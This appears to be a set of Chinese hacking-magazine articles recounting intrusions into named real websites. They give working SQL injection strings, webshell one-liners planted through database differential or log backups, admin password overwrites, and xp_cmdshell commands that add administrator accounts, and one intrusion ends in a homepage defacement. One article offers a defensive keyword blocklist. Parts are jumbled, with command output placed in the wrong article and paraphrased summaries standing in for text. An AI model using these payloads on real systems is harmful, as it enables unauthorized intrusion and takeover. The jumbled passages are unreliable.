今天晚上闲着无聊在网上逛了半天，突然发现 http://www.b2btielu.com（铁路资讯网）有注入漏洞。赶快找到明小子，然后就开始了我的入侵之旅。如图1所示。


很明显这是一台虚拟主机，我旁注检测了一下它的注入点，发现非常多。如图2所示。


目标网站也在其列，一路顺风接着往下检测，看看注入地址是否可以真的注入。这里我检测通过，并且猜测出了管理员的账号和密码，如图3所示。


运气不错，还检测出了后台地址 `http://www.b2btielu.com/maoyizhongxin/_admin/login.asp`，如图4所示。不过输入账号和密码进入后台看了一下，感觉挺失败的，服务器不支持文件上传。但是能够获得密码也让我很兴奋了。无奈，铁路资讯网站居然会用一台虚拟主机，而且网站的漏洞可算得上是千疮百孔。看来国内的站长要努力了，还抱着可有可无的态度去对待网络安全，迟早会吃亏的。


**脚本小子：**SQL注入的话题都快被讨论烂了，但是我们也不得不承认这种方法在入侵网站中的确是最有效的攻击手段。  

**适合读者：**脚本爱好者、入侵爱好者  
**前置知识：**无

## 小试差异备份

文／图 Zero_cold


现在利用 Db_owner 权限 Log 备份获得 WebShell 的方法好像很流行。虽然常看见论坛上有人讨论，不过因为没有遇见这样的注入点，所以一直没有机会来实践。

今天正好是周末，我在浏览本地的信息港时候突然心血来潮想给它做个安全测试。意外地发现本地信息港彩票网站的一个 ASP.NET 系统存在着 SQL 注入，权限恰恰是 Db_owner，正好可以拿它来练习下 Log 备份获得 WebShell，提高下自己的动手能力。


图1

虽然是 Db_owner 权限，却不能确定 Web 目录和 SQL 数据库是不是在同一个服务器上。用 HDSI 的目录浏览功能查了下，很快确定数据库和 Web 目录在同一个服务器上，正好符合我要练习的条件。迅速地在注射点下输入以下语句：

```sql
alter database sdcp set RECOVERY FULL--
create table cmd (a image)--
backup log sdcp to disk='c:\cmd' with init--
insert into cmd(a) values('<%25Execute(request("#"))%25>')--
backup log sdcp to disk='f:\caipiao_XXX_com\upload\test.asp'--
```

依次执行上述语句都顺利返回了原来的页面。可是浏览发现目录中没有 test.asp 文件，难道是目录权限进行了限制，没有可写权限？换个目录看下还是不行……回到 IE 中访问，发现提示的是 404 错误。怎么可能呢？明明存在 test.asp 的啊。

疑问中我又检查了一下，发现确实是网站的真实路径。换个目录再次备份，看到备份好的文件出现在浏览目录中的时候，再次访问发现还是提示 404 错误。突然想到文件是存在的，如果无法运行，大概是系统没有开启 ASP 解析，不然不会出现这种错误。再次测试，证明我的推想是完全正确的，如图2所示。


图2

明白了吧，Windows 2003 默认权限是不支持父级目录继承的。根据我的经验一般这样服务器很有可能支持 PHP。那么我再备份个 PHP 如何？把 lanker 的一句话后门备份进去，浏览目录时发现 test.php 存在，但用 IE 访问一样是 404 错误……当时只是想实践下 Log 备份得到 WebShell，发现这种方法不行后，我用 HDSI 猜解出了管理后台的账号和密码。


图3

没有想到该 ASP.NET 系统存在着这样严重的安全缺陷。在 WebShell 中发现我备份的 test.asp 并没有出错，知道它的系统确实不支持 ASP 和 PHP。希望正在使用该系统的站长也请注意一下自己的网站，如图4所示。


图4

---

适合读者：网络爱好者、入侵爱好者、脚本爱好者  
前置知识：无


## Guo's Blog 最新提权漏洞

文／图 寂寞的刺猬

时下 Web 2.0 很是流行，我也套用 L_BLOG 模板建了一个博客。只是小站缺少吸引眼球的亮点，所以偶尔的一篇评论都会让我惊喜不已。一天早上我打开博客，发现多了一篇评论，心里很是高兴，又有一位朋友加入进我的团队了。但点击发帖人的名字，提示的却是没有该用户。我当时就发懵了，不会是被入侵了吧？立马申请一个用户，然后再以管理员的身份进入后台查看此用户 ID，发现新申请的用户 ID 和前一个用户的 ID 是连续的，提到嗓子口的心稍稍下降了一些，但这个评论是如何发出的呢？难道可以匿名评论？带着这个疑问我用游客的身份试了一下，果然有此缺陷。

### SQL版提权

既然可以匿名评论，那么能否写入跨站语句呢？打开评论所涉及的“blogcomm.asp”文件，在仔细地看过之后，没有发现任何跨站漏洞。但在我灰心之际，L_BLOG 却送给我一个小小的惊喜，在“blogcomm.asp”中有这样一段代码：

```asp
comm_DisSM=Request.Form("comm_DisSM")
comm_DisUBB=Request.Form("comm_DisUBB")
comm_DisIMG=Request.Form("comm_DisIMG")
comm_AutoURL=Request.Form("comm_AutoURL")
comm_AutoKEY=Request.Form("comm_AutoKEY")
IF comm_DisSM=Empty Then comm_DisSM=0
IF comm_DisUBB=Empty Then comm_DisUBB=0
IF comm_DisIMG=Empty Then comm_DisIMG=0
IF comm_AutoURL=Empty Then comm_AutoURL=0
IF comm_AutoKEY=Empty Then comm_AutoKEY=0
Conn.ExeCute("INSERT INTO blog_Comment(blog_ID,comm_Content,comm_Author,comm_DisSM,comm_DisUBB,comm_DisIMG,comm_AutoURL,comm_AutoKEY,comm_PostIP) VALUES ('"&blog_ID&"','"&comm_Content&"',"&memName&",'"&comm_DisSM&"','"&comm_DisUBB&"','"&comm_DisIMG&"','"&comm_AutoURL&"','"&comm_AutoKEY&"','"&Guest_IP&"')")
```

代码中的“comm_DisSM”“comm_DisUBB”“comm_DisIMG”“comm_AutoURL”和“comm_AutoKEY”分别对应评论左侧的“禁止表情”“禁止UBB”“禁止图片”“识别链接”和“识别关键字”选项，而这些参数在用 `Request.Form` 接收后，只是简单判断所提交来的值是否为 `Empty`（空），如为空则赋值为 0，否则照单全收。再看一下 SQL 语句，用到的是 `insert`，这种格式的语句在 Access 数据库中很难有所作为，但如果数据库是 SQL 呢？

记得听剑心说过，SQL 版 Guo's Blog 就是根据 L-blog 改编而来。从源码站下载了一套 SQL 版的“Guo's Blog 源码”，发现 Guo's Blog 中的“blogcomm.asp”文件与 L_BLOG 中所涉及的代码一字不差！

虽然网上提供了大量 SQL 版的 Guo's Blog 源码，但用百度找到的采用 Guo's Blog 模板的网站，却大多是 Access 版，SQL 版很少。没办法，只有本地测试了。

首先注册一个用户“jmdcw”，成功后退出登录，然后打开一篇日志，采取匿名评论的方式，如图1所示。


图1

为了可以了解到提交的详细数据，在发表评论之前，我们启动“Winsock Expert”进行抓包，提交后抓到的 POST 内容如下：

```http
POST /gblog/blogcomm.asp?action=postcomm HTTP/1.1
Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/msword, application/vnd.ms-excel, application/x-shockwave-flash, */*
Referer: http://127.0.0.1/gblog/blogview.asp?logID=461
Accept-Language: zh-cn
Content-Type: application/x-www-form-urlencoded
UA-CPU: x86
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.2; SV1; .NET CLR 1.1.4322)
Host: 127.0.0.1
Content-Length: 90
Connection: Keep-Alive
Cache-Control: no-cache
Cookie: ASPSESSIONIDSCQCCCAAG=...; comm_memName=abcd&comm_memPassword=1234&Keys=4194&comm_AutoURL=1&message=ceshi&blog_ID=461
```

在最下方提交的数据中，comm_memName 是用户名；comm_memPassword 是密码；Keys 是验证码；comm_AutoURL 是识别链接。在代码所涉及到的五项提交中，我刚才仅勾选了“识别链接”；message 是评论内容；blog_ID 是当前日志的 ID 值。将抓到的数据保存为“guo.txt”，然后再进行以下几点的修改。

- 修改 `comm_AutoURL` 的值为 `1,0,'127.0.0.1');update+[blog_member]+set+mem_status='SupAdmin'+where+mem_name='jmdcw'--`。分号前的字符串用于匹配 SQL 的 `insert` 语句，分号后的语句将普通用户 `jmdcw` 的权限设为 `SupAdmin`（管理员），空格可用 `+` 代替，也可用 `/**/` 代替。
- 为防止发表评论时用户名冲突，修改 `comm_memName` 为不存在的用户名，如 `abcc`。
- 刷新当前日志页面，修改 `Keys` 为刷新后的验证码 `7306`。

```text
comm_memName=abcc&comm_memPassword=1234&Keys=7306&comm_AutoURL=1,0,'127.0.0.1');update+[blog_member]+set+mem_status='SupAdmin'+where+mem_name='jmdcw'--&message=ding&blog_ID=461
```

统计上面的字符数是 176 个，然后将 Guo.txt 中的 `Content-Length` 值由 90 改为 176。OK，修改完成后把构造交给 NC，在 CMD 中运行：`nc.exe -vv 127.0.0.1 80 <guo.txt >guo.htm`，即把 guo.txt 提交到 127.0.0.1 的 80 端口并将结果输出到 guo.htm。CMD 返回类似 `[127.0.0.1] 80 <http> open` 后，打开 guo.htm，评论发表成功。


刷新日志页，发现多了一条评论。评论增加了，但权限是否提升？如图3所示。从图中可见用户“jmdcw”的权限中多了“发表日志”和“系统管理”两项，现在宣告提权成功。


相对于 Access 版来说，SQL 版突破后台封锁拿到 WebShell 的机率较高。用提权后的用户名密码登录后台，如图4所示。记下“Guo's Blog 服务器基本信息”中的“站点物理路径”（示例：`M:\internet\`），再结合 URL 地址 `http://127.0.0.1/gblog/default.asp`，得出 Guo's Blog 物理地址为 `M:\internet\gblog`。有了物理路径即可通过数据库备份方式生成特殊 ASP 文件。


> 对数据库备份，一般有以下四种方式：

- 数据库直接备份（`backup database ... to disk=...`），生成文件最大。
- 数据库差异备份（`backup database ... to disk=... WITH DIFFERENTIAL, FORMAT`），文件较小。
- 日志备份（`backup log ... to disk=...`），文件较小。
- 日志差异备份（`backup log ... to disk=... with init, no_truncate`），文件最小。  
  最实用的方法是数据库差异备份。

最初我采用前面的注入点备份，但方式麻烦且会增加评论数。后来在 Guo's Blog 后台发现“数据管理”中的“SQL 查询执行”（如图5），可直接执行 SQL，既方便又不易留痕。


```sql
1. create table [dbo].[jn_tmp]([cmd] [image])  -- 创建表
2. declare @a sysname,@s nvarchar(4000); select @a=db_name(),@s=0X6A006D00640063007700; backup database @a to disk=@s  -- 备份数据库，@s 为备份名（jmdcw 的 16 进制）
3. insert into [jn_tmp](cmd) values(0x3C25657865637574652872657175657374282269222929253E)  -- 将一句话木马 <%execute(request("i"))%> 的 16 进制写入表
4. declare @a sysname,@s nvarchar(4000); select @a=db_name(),@s='M:\internet\gblog\attachments\jn.asp'; backup database @a to disk=@s WITH DIFFERENTIAL
5. drop table [jn_tmp]  -- 删除此表
```

> FORMAT——对数据库实行差异备份，备份的保存路径是前面得到的物理路径（attachments 是上传目录），文件名为 jm.asp。  
> “SQL 查询执行”有个 BUG，不管输入的语句是否正确，它返回的都是“SQL 语句执行成功”，所以在输入上面的语句时，要确认输入无误后再点击执行！

接下来在 URL 中输入“http://127.0.0.1/gblog/attachments/jm.asp”，如图6所示。


图6

在页面的最下方，显示的是：“类型不匹配：'execute'”，说明一句话木马寄身成功。接下来再用一句话木马客户端连接 jm.asp，WebShell 也就到手了。

### Access版提权

上面说到的是 SQL 版的“Guo's BLOG”提权方法。其实不论是 SQL 版还是 Access 版，均存在另一个严重的提权漏洞，就是 BLOG 的用户资料提权漏洞。具体资料可以浏览 2006 年 1 期《黑客防线》中的《BLOG再现提权漏洞》。当提升为管理员权限后，对于 Access 版，如果后台“数据库文件路径”中数据库格式是 ASP 或 ASA 扩展名，那么后台中的秘密武器“SQL 查询执行”就有了用武之地。

```sql
update aNotdownload set blog_Nodownload=0x3C2565786563757465287265717565737428226C222929253E
```

这条语句执行后，就会把防下载表中的原内容“<%”改为“<%execute(request("l"))%>”，这样数据库就成了一句话木马的寄身之地。在 URL 中提交该数据库地址，返回的信息中会出现“类型不匹配：'execute'”之类的错误信息。

### 漏洞修补

说过了提权方法，再来说一下 Insert 提权漏洞的修补方法：

- 在 `Request.Form` 前加入程序自定义的 `CheckStr` 参数，如 comm_AutoURL 的过滤方法就是：`comm_AutoURL=CheckStr(Request.Form("comm_AutoURL"));`
- 分别对 `INSERT INTO` 语句中 `&comm_DisSM&` 等五个参数加单引号，如：`'"&comm_DisSM&"'`。

---

适合读者：网络爱好者、入侵爱好者、脚本爱好者  
前置知识：Win32 溢出基础

## “借鉴 FLASH” 爆轰江湖社区

文／图 morephaze


云羽花园是我们校园网最大的娱乐社区，可惜它的站长竟然在网站排行榜的论坛上发表一些针对我们学校的恶意言论，并扬言要退出校园网站排行榜，于是乎祸从帖出，便有了此文。

### SA的困惑

半年前曾对该站点进行过一次友情检测，当时拿到了一个 SA 注入点，发现 Web 和数据库是分离的，那会只是开个 3389 转了一圈就完事了，当然最后还是发了一封 Mail 通知了管理员。时隔半年，不知现在安全工作做得怎样。

简单介绍一下云羽花园的情况，其下有几个版块：花园剧场、博客、花园论坛、江湖社区以及一个交友专区。站点的确很大，要不也不会动用三台服务器。花园论坛版本未知，猜想可能不是自行开发的，但它屏蔽了 Copyright 信息，一时无法得知具体是何脚本。社区方面暂时没发现什么可以利用的地方。上次的注入点是在交友专区里找到的，是其中的图片 ID 参数有问题。这次先提交个单引号看看，返回如图1所示。

难道管理员没收到我的信？老问题还在，废话不说，拿出 NBSI2 一通狂注。结果差点晕过去，如图2所示。居然还是 SA 权限，接下来给他来个“秒杀”：先传 3389.bat，再加个管理员，最后便是渗透主机，一切都是那么的顺理成章。

不过事情并没有我想象的那么简单，用 NBSI2 执行……

## 脚本攻防


图1


图2

Ipconfig时，让我郁闷的事发生了，如图3所示。返回的竟然是内网IP！这下我的计划全部泡汤了。


图3

看来管理员还是做了相应处理的，但他为什么不修补SA注入点呢？

## 雾里看花

回看Web方面，关注一下论坛。发现论坛和江湖是整合在一起的，这倒让我找不着路了。本来江湖程序接触的就少，和论坛整合在一起的就更少了。没办法，还是先从论坛入手，试试注入吧。找个短消息页面测试，测试结果如图4所示。


图4

看来真是不堪一击啊，由刚才的注入点和目前掌握的情况来看，用的都是同一个MSSQL数据库GARDEN，如图5所示。找了几个表，发现Sfadmin表非常匹配，最后确定这是论坛的管理员表，直接跨库update，根本不用破解它的MD5散列。


图5

在浏览器填入asp?id=3105;update garden.dbo.sfadmin set admin_password='111111' where admin_name='风火流云';--。回车后正常返回，如图6所示。


图6

再用NBSI列一下结果，Update成功。接着猜后台，先测试了http://site/admin.asp，没想到一击即中，如图7所示。


图7

留意到左下方的划圆处，感觉应该是原始版权信息，不过这里先不管。回到后台，用密码登录上去看看左边的栏目，不过好像链接都无效，如图8所示。


图8

现在开始怀疑后台的真实性了，搞不好是白费功夫。结合得到的信息，和注入得到的表名Sfadmin，拿去Google搜索一下，才知道用的是雪人论坛商业版。免费版都是Access的，与SQL版完全不同，而我又找不到能下的SQL版源码，看来即使有了密码，到了后台也是雾里看花，论坛的线索一下子断了。

上面还有一个OBlog，具体版本不明，但数据表还是整合进GARDEN里了。记得黑防有一期曝光了OBlog 3.0的致命漏洞，马上翻看了一下，原来问题也是出在注入上的。但LIKES说了，Access版的可以直接备份WebShell，而SQL版则可以用差异备份来拿WebShell，当时真是兴奋啊！直到后来才想起这台机器是Web和数据库分离，差异备份又有什么意义呢？

参考了一下网上的资料，把方向定在反向拿Shell，可是在数据库主机上FTP我的肉鸡，肉鸡半天也没有反应，想必是在外网出口处做了限制……这个SA注入点真的是“鸡肋”级的注入点啊！

## “雷霆”战马

重整旗鼓，最后的希望放在了花园剧场了。这是一个ASP的FLASH发布系统，运气不错，找到一处注入：`garden.hjgc.org/flh/review.asp?ID=1192`，用NBSI检测了一下，如图9所示。


图9

猜出了管理员名和密码，采用的是Access数据库。Access能给我们带来什么惊喜呢？用liuyun密码213213登入后台，功能很全，就是少了上传FLASH的功能。接着开始在后台到处转悠，竟然发现了一个关键，如图10所示。


图10

标记着“雷霆888FLASH”，看来这就是系统的真面目了。

上网Google了一下关键字，果然不出所料，此程序很多地方都有下载。自己搞了一套测试，还真被吓了一跳。注入点N多就不说了，后台页面的验证代码竟然这样写：

```asp
<%
if request.Cookies("name")="" then
    response.redirect "login.asp"
end if
%>
```

真怀疑程序开发者是不是别有用心，反正还在使用这套FLASH系统的用户可要遭殃了。明眼人一看就知道利用简单的Cookie欺骗就能进后台。

当分析完全部的ASP文件后发现数据库的后缀是ASP的。经过测试，得知管理员也没有修改默认数据库的路径，如图11所示。


图11

终于看见胜利的曙光了，现在要做的就是把一句话木马插到数据库里。但刚才看到有一段过滤函数把`%`过滤成`>`了，那我们应该怎么办呢？不过有一处肯定没有过滤的，那就是管理员的密码。试问一个管理员用“%%%”三个百分号做密码的话，那他下次登录时用“>>>”能进后台吗？显然是不可能的。让我们开始插马吧，把管理员密码改成`<%eval(request("#"))%>`，如图12所示。


图12

点击修改即可插入木马，用海洋客户端连接`tu.asp`，好不容易在返回的一大堆垃圾数据里找到了管理入口，如图13所示。


图13

再传个“干净”点的ASP后门上去，最后改一下主页留几句话算是警告吧，当然还是得帮站长把原首页备份了，毕竟建个站也不容易啊。本次“友情”渗透也到此为止了。除了告诫大家像“雷霆888FLASH管理系统”这样的程序不能拿来用之外，还希望大家在突破Web和数据库分离的主机时找到更好的办法，不至于让SA注入变成鸡肋。

脚本小子：如今SQL注入如火如荼，注入者凭借一些入门级的工具，如阿D、明小子的Domain旁注Web综合检测程序、NBSI等，幸福地注入着网站。虽然ASP代码经历了很久的成长和成熟期，但其自身的缺陷，使众多ASP系统网站难逃一劫。为此，如何防止注入就成了一个摆在大家面前的话题了。

- 适合读者：网络爱好者、入侵爱好者
- 前置知识：无

## SQL通用防注入探索

文/图 蓝城师范学院 李刚


注入者多半是在提交的链接后加上如“'”或明显正确的语句“and 1=1”来探测，这些符号如未在判断代码中过滤，服务器端则按提交语句解释，由此可轻松暴出数据库路径。如果在提交地址后加入一些SQL查询代码，那么后果会怎样呢？如此一来不经登录，恶意者便可访问数据库中的数据，利用一些软件更简化攻击操作，使数据库中的表甚至表中的字段以及字段中的数据暴露无遗。

以前有很多防止注入的办法，笔者也曾尝试过，大都是在查询页加入防注入代码。如果是小网站只有几个页面很容易实现；如果是中型或较大型网站，那么修改工程量可想而知。笔者经过尝试，发现注入代码提交后总是要访问数据库，我们何不在数据库连接字段中进行防注入呢？

经过一段时间分析，发现只要过滤掉SQL语句中的一些关键字，就可轻松防止SQL注入。而对于XP_cmdshell等小的注入工具使用关键字，我们同样要过滤，因为它可以在提交地址后加入用户（net user x /add），并添加为管理员（net localgroup administrators x /add）的代码，这将使注入者控制整台服务器。

过滤代码如下，只要将此代码拷贝在数据库连接文件代码之前，就可轻松防止整站被SQL注入。数据库连接文件一般为conn.asp、connection.asp、config.asp、con.asp等。

```asp
sqlkey(3)='exec%20master.dbo.xp_cmdshell'
sqlkey(4)='net localgroup administrators'
sqlkey(5)='select'
sqlkey(6)='count'
sqlkey(7)='asc'
sqlkey(8)='char'
sqlkey(9)='mid'
sqlkey(10)='""'
sqlkey(11)=':'
sqlkey(12)='""'
sqlkey(13)='insert'
sqlkey(14)='delete'
sqlkey(15)='drop'
sqlkey(16)='truncate'
sqlkey(17)='from'
sqlkey(18)='%'

error=false
for num=0 to ubound(destn)
  if instr(sqlstr,sqlkey(num))<>0 then
    error=true
  end if
next
if error then
  Response.Write("对不起，非法URL地址请求，请不要尝试对本站注入")
  response.end
end if
```

```asp
<%
on error resume next
dim sqlstr,error,num
sqlstr=request.servervariables("query_string")
dim sqlkey(18)
sqlkey(0)='net user'
sqlkey(1)='xp_cmdshell'
sqlkey(2)='/add'
...（其余关键字定义见右侧代码框）
%>
```

笔者亲自测试了很多能够正常注入的站点，加入以上代码后，原先可以被注入工具利用的链接现在都不可用了。试图提交“'”等关键字，页面提示“对不起，非法URL地址请求，请不要尝试对本站注入！”，看来防注入代码真的起到了作用。

- 适合读者：入侵爱好者，注入爱好者  
- 前置知识：无

## 轻松获得电脑报的


文/图：雅虎


电脑报是国内发行量最大的计算机报，相信很多黑友一定看过，今天我们就来对他进行检测。打开主页 http://www.cpcw.com，网站采用的是PHP+MySQL架构（当然我是获得WebShell后才知道数据库是MySQL的）。用“' and 1=1' 'and 1=2'”手工测试了一下，都没有找到注入漏洞，我想也不会有这么低级的漏洞，好歹也是发行量最大的计算机报嘛。接下来想到了上传，在ASP上传漏洞都被大家重视的今天，PHP、JSP等的上传漏洞还没有引起大家足够的重视，我想原因可能是因为国内采用ASP的网站占了绝大多数吧！经过本人一番辛勤的努力，经过N次查找上传文件失败后，终于找到了一个上传文件的地方，如图1所示。


又经过N次上传的实践，发现上传PHP、PHP加空格或加点、***.JPG.PHP等类型文件都不行，得出一条真理：凡是沾了PHP的边，文件上传都会出现如图2所示提示。


PHP不让传，那就试试ASP吧！于是抱着试试看的态度传了一个ASP文件，居然上传成功了，如图3所示。


这让我高兴之余有点担忧，这么容易就能传上ASP文件，要是无法解析怎么办？不过事实证明我的担忧是多余的，它不仅能解析ASP，连ASPX都能解析。获得的WebShell如图4所示。


获得WebShell后曾尝试提权，虽然能解析ASP、ASPX、PHP等类型文件，而且装有Serv-U，其硬盘目录基本上都能浏览，但尝试各种提权方法都失败（没有写入权限）。看来管理员IIS设置得还不错。最后希望通过此文能让各位管理员重视一下ASP以外的上传漏洞！

- 适合读者：网络爱好者
- 前置知识：无

## 入侵“西安搜狐”

文/图：雅虎


今天上网转悠，发现一个“西安搜狐 http://www.xasohu.com/”。和很多门户站点一样，主页丰富多彩，如图1所示。


图1

对于这种大站，我感觉通过旁注入侵会容易一些，于是拿出 Domain 3.5 查了一下，发现站点还真不少，有十来个，如图2所示。


图2

顺便批量检测了一下上传页面，结果如图3所示。

| 存在页面（点击打开） | 结果 |
|---|---|
| http://www.tangdu.com/bbs/upfile.asp | 存在 |
| http://www.haizer.com/admin/upfile.asp | 存在 |
| http://www.haizer.com/admin/upfile.asp | 存在 |
| http://www.haizer.com/admin/upload.asp | 存在 |

图3

直接访问了 http://www.haizer.com/admin/upfile.asp，没想到回跳到主页，接着又试了一下 Admin 目录下的 Upload.asp 和 Admin_upfile.asp，结果都一样跳到主页。看来必须要登录后台才能继续进行了。接下来的工作就是找后台，在 admin 目录下找了半天也没发现什么，倒是在根目录下找到了 login.asp，用户名密码填入 admin 顺利进入，如图4所示。


图4

文章的地方，如图5所示。点击插入图片，弹出网页，如图6所示。


图5


图6

看着很面熟……在哪儿见过？这不是 EWebEditor 兄弟吗？用 EWebEditor 来搞 WebShell 我可是很熟练的哦。于是在 admin 目录查找 EWebEditor 的目录，可惜找了半天都没找到，在根目录下也没发现。算了还是抓包来解决，打开 Winsock Expert 监听发表文章页面，然后点击插入图片，结果抓出 EWebEditor 目录是 http://www.haizer.com/bbs/EWebEditor/，如图7所示。看来管理员比较“狡猾”……


猜，把EWebEditor的目录放在不太相关的论坛目录下。在目录下输入默认的admin_login.asp，出来熟悉的登录页面，如图8所示。


不过让我伤心的是用户名和密码用admin登录失败，让我更伤心的是数据库不是默认的，看来这条路走不通。忽然想到刚才扫出了几个上传文件，就再次输入upfile.asp。这次终于不再跳回主页，跳出窗口如图9所示。

凭我的经验，这里应该是可以利用的，用Domain 3.5 动网上传，填上抓来的Cookie，成功获得一个WebShell，如图10所示。

因为服务器权限设置得不严，所以我可以直接进入其他网站目录。我比较好奇的是www.haizer.com的EWebEditor数据库到底在哪。通过WebShell找到数据库为在 @ $ % & d i s _ s d f 2 5 4 6 4 2 d s d s b # # $ 目录下 #Sdds$%&#@3351_asda@$#.asp，看来管理员的确没辙，如果硬猜的话，这辈子也猜不出来。在WebShell上浏览了一下，发现装有PCAnyWhere，下载cif文件，成功获得PCAnyWhere的用户名和密码，如图11所示。

至此就拿到最高权限了。不过后来考虑了许久，发现这个东西和搜狐、sohu好像一点关系都没有，仅仅是挂了一个吸引人的牌子。


- 适合读者：网络爱好者，入侵爱好者
- 前置知识：无

## VIP会员学习成果展

## 实战PHP旁注加提权


今日朋友发来一个站，让帮忙搞搞。打开一看，原来是他们学校的站，全PHP的，而且做得很安全，根本没有地方下手。思考了几分钟之后，决定采用旁注战术，因为PHP虽然难以搞定，但是提权还是比较容易的，而且一般情况下，权限给得也很大。

用明小子（DOMAIN V 3.5）的域名查询功能，找到几个同IP的站，基本都看了下，全是PHP页面的。经过一番筛选，锁定目标于 http://www.xxxxxxcom/（是个成人用品站，未满18岁者闪，本刊读者需要怀着虔诚的心态对待技术，我们需要对页面内容忽略啊。）


图1

好，我们随便点开一个页面，`http://www.xxxxxx.com/Shopping_DisplayProducts.php?action=open&ClassfyID=1&ProductsID=41`，在后面加上单引号，返回空白，看来有戏。再在后面输入：

```
And 1=1  返回正常

And 1=2  返回空白，如图2所示。
```


图2

确定思路，现在开始用PHP注入。我的原则一向是有工具用工具，工具不行再用手来，这次也不例外。打开HDSI，填上网址，输入关键字，顺风顺水开始跑，如图3所示。


图3

好了，一共23位字段，开始跑用户名密码，还有后台。不幸的是，经过漫长的等待，我一个表都没得到，更谈不上字段了。不过幸好跑到几个后台。

```text
http://www.XXX.com/admin_login.php
http://www.XXX.com/admin_main.php
```

试试看万能密码 `hackwolf'='`、`hackwolf` 能不能登录，如图4所示。


图4

看来运气不好，黔驴技穷了。无奈下打开了第二个地址，希望能找到一点灵感。结果差点吐血，如图5所示。


图5

直接就进去了，真不知道管理员是怎么做后台的。下面的步骤很简单，就是上传文件获得WebShell。我直接上传了一个2006.PHP木马，结果没返回任何东西，都闪。返回前台看看，如图6所示。


图6

2006.PHP显示成图片了，看来不能被执行，又失败了。习惯性地看了下图片的属性，差点乐死……如图7所示。


图7

原来传上去了，只是没改后缀。顺利地按照地址找到了可爱的木马。登录进去，找找朋友学校站点的目录，发现可以跳转任何目录，可读可写，看来权限给的不低。顺利找到目录，放个马进去，如图8所示。


图8

到这里，就应该结束此次黑客之行了。可是不得到系统Shell的黑客就不是一个好黑客。所以，我决定奋战到底。2006.PHP木马中本身带有PHP版的Serv-U本地溢出程序，输入以下命令，如图9所示。


图9

返回如下信息：

```text
Recv: 220 Serv-U FTP Server v5.0 for WinSock ready...
Send: USER WillBe
Recv: 331 User name okay; need password.
Send: PASS WillBe
```

适合读者：入侵爱好者，脚本爱好者

前置知识：无

## 快速入侵网站，就这么简单——浅谈 SA 用户权限的安全隐患

文／图 郭建伟


朋友是一事业单位信息中心的网络管理人员，近日为单位搭建了一个网站。出于提高网站安全性的考虑，请我对该网站进行一番安全性测试。我应邀登录该网站，在网站的主页面仔细查看了一番，发现网站几乎全由 HTML 静态页面组成，在主页中点击每一个链接，打开的都是 HTML 页面，甚至包括主页面的名称也是 index.htm。对于静态页面，显然通常的入侵方法都会失效。我觉得没什么意思，就想结束对该网站的安全测试，并决定给朋友发封 E-mail，夸奖他能构成这么“严密”的系统。

然而无意中我点击了主页面中的“企业在线”链接，打开对应的显示页面，发现这是一家软件企业的宣传说明页面。仔细看了一下地址栏中的网址信息，该页面的地址是 `http://www.xxxx.com.cn/qyzx/comp_view.asp?id=170`，看来该网站的“企业在线”模块是使用 ASP 技术开发的。鉴于基于 ASP 技术的网站多半都存在一些 SQL 注入漏洞，于是在地址栏中输入 `http://www.xxxx.com.cn/qyzx/comp_view.asp?id=170 and 1=1`，回车确认后返回正常显示页面，如图1所示。

接着输入 `http://www.xxxx.com.cn/qyzx/comp_view.asp?id=170 and 1=2`，确认后出现错误提示，如图2所示。


看来网站的“企业在线”模块存在 SQL 注入漏洞。但是单纯从返回的错误信息来看，还搞不清该网站采用的是何种类型的数据库。于是运行 NBSI2 注入分析程序，在注入地址中输入 `http://www.xxxx.com.cn/qyzx/comp_view.asp?id=170`，点击检测按钮开始对该网站进行 SQL 注入分析，NBSI2 很快就检测出该网站存在严重的 SQL 注入漏洞，如图3所示。

并且检测出该网站使用的是 SQL Server 数据库。在“SQL Server 信息”面板中可以看到当前数据库的用户是“dbo”，当前数据库用户的权限是“SA”。在“已猜解表名”面板中点击“自动猜解”按钮，很快就显示出了数据库中的所有表名。选中其中的“系统管理员表”，在“已猜解列名”面板中点击“自动猜解”按钮，于是该表中的管理员名称和密码等列名就显示出来了，勾选猜解出来的列名，点击“猜解数据”按钮，于是管理员和密码就彻底暴露了。看来只要找到后台管理页面，就能够轻松控制该网站了。

```text
Recv: 230 User logged in, proceed.
Send: site exec net user
Recv: 200 EXEC command successful (TID=33).
```

看来执行成功，管理员默认密码没改。最后上传灰鸽子，得到权限，入侵结束。

但我可没功夫去搜索后台管理页面的确切地址。应该说，如果网站只是存在简单的 SQL 注入漏洞，还算不上什么太严重的问题。但是由于该网站采用的是 ASP+SQL Server 结构，更危险的是网管人员使用的是 SA 权限来管理当前的数据库，这就存在极大的安全隐患。于是我想，利用该注入地址和当前的 SA 权限，完全可以使用 SQL 数据库中的 `XP_cmdshell` 存储过程，简单地利用浏览器就能在该网站上执行任何命令，例如在浏览器中输入 `http://www.xxxx.com.cn/qyzx/comp_view.asp?id=170;exec master..xp_cmdshell 'net user sysadmin password /add'--`，确认后返回正确信息，说明指令执行成功。


在浏览器地址栏中继续输入相关命令，可新建具有管理员权限的用户（如 `sysadmin`），并通过端口扫描分析服务器开放端口与风险情况。

右栏内容讨论了服务器开放端口（如 25、80、110）与 SQL 注入组合带来的风险。即使端口不多，只要存在严重注入漏洞和高权限数据库账户，攻击者也可执行诸如 `iisreset /stop`、`iisreset /reboot`、修改管理员权限等危险操作，甚至造成拒绝服务。

文末强调：ASP + SQL Server 架构网站普遍使用高权限账户管理数据库，若程序设计不严谨，注入漏洞与 SA 权限结合将带来巨大安全隐患，应合理配置数据库与最小权限。

### 总结

这次入侵靠的是运气和一种直觉，这两样东西对于一个黑客来说是十分重要的，大家一定要好好体会、理解、运用。还有，欢迎大家加入黑防培训班，有很多好东西在等着你！

## MM 冲 CMS 开始钓人喽

适合读者：入侵爱好者、网络爱好者

前置知识：无

文／图 网络游侠


今天 MM 去几家网络公司面试，我则挨个看这些公司的网站……其中一家号称是“中国中小企业金融服务市场的创新力量和杰出代表”，看上去比较强悍……

不知道风讯？网络上和动易齐名的 CMS 之一，大中型网站首选……现在开始干活。看看源代码第一行：`<!--Published Date:2006-5-13 13:14:27 Powered by www.Foosun.cn,Products: Foosun Content Manage System-->`——“确认是风讯无疑”！输入风讯的默认管理路径 `/foosun/admin/login.asp`，果然出现登录界面，是 FoosunCMS v3.1.0930。既然管理界面是默认的，那么数据库地址呢？在网址后输入 `/FooSun_Data`，出现如下提示。


